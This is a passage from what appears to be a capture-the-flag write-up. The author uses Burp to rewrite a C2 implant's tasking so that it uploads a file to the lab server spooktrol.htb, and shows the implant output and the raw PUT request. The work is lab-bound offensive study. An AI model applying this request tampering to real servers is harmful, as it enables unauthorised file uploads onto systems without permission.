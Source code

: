I want to change `"task":1` –> `"task":3`, and `"arg1":"whoami"` –> `"arg1:"test.txt"`.

I’ll add that in the Options again:

![image-20211021212514150](https://0xdfimages.gitlab.io/img/image-20211021212514150.png)

With both, it looks like:

![image-20211021212553198](https://0xdfimages.gitlab.io/img/image-20211021212553198.png)

If I run `./implant`, it errors out:

```

oxdf@parrot$ ./implant 
{"status":0,"arg1":"test.txt","id":3,"result":"","target":"1da79ea0774ee5438910b2d2734e3188","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application

```

I forgot to create `test.txt`. This time it works:

```

oxdf@parrot$ ./implant 
{"status":0,"arg1":"test.txt","id":4,"result":"","target":"17a831078f79c7c80a2dade8bd2edf50","task":3,"arg2":""}
{"message":"File upload successful /file_management/?file=test.txt"}
{"status":0,"arg1":"test.txt","id":4,"result":"","target":"17a831078f79c7c80a2dade8bd2edf50","task":3,"arg2":""}
{"message":"File upload successful /file_management/?file=test.txt"}
{"status":0,"arg1":"test.txt","id":4,"result":"","target":"17a831078f79c7c80a2dade8bd2edf50","task":3,"arg2":""}
{"message":"File upload successful /file_management/?file=test.txt"}
{"status":0,"arg1":"test.txt","id":4,"result":"","target":"17a831078f79c7c80a2dade8bd2edf50","task":3,"arg2":""}
{"message":"File upload successful /file_management/?file=test.txt"}
{"status":0,"arg1":"test.txt","id":4,"result":"","target":"17a831078f79c7c80a2dade8bd2edf50","task":3,"arg2":""}
{"message":"File upload successful /file_management/?file=test.txt"}^C

```

It’s interesting that it keeps trying to run `whoami` (which Burp continues to change to a file upload). I wonder if the C2 controller needs the `whoami` output to log the initial beacon.

In Burp, the PUT request looks like:

```

PUT /file_upload/ HTTP/1.1
Host: spooktrol.htb
User-Agent: curl/7.74.0
Accept: */*
Cookie: auth=17a831078f79c7c80a2dade8bd2edf50
Content-Length: 209
Content-Type: multipart/form-data; boundary=------------------------184989c6c833691c
Connection: close
--------------------------184989c6c833691c
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

this is some test data
--------------------------184989c6c833691c--

```
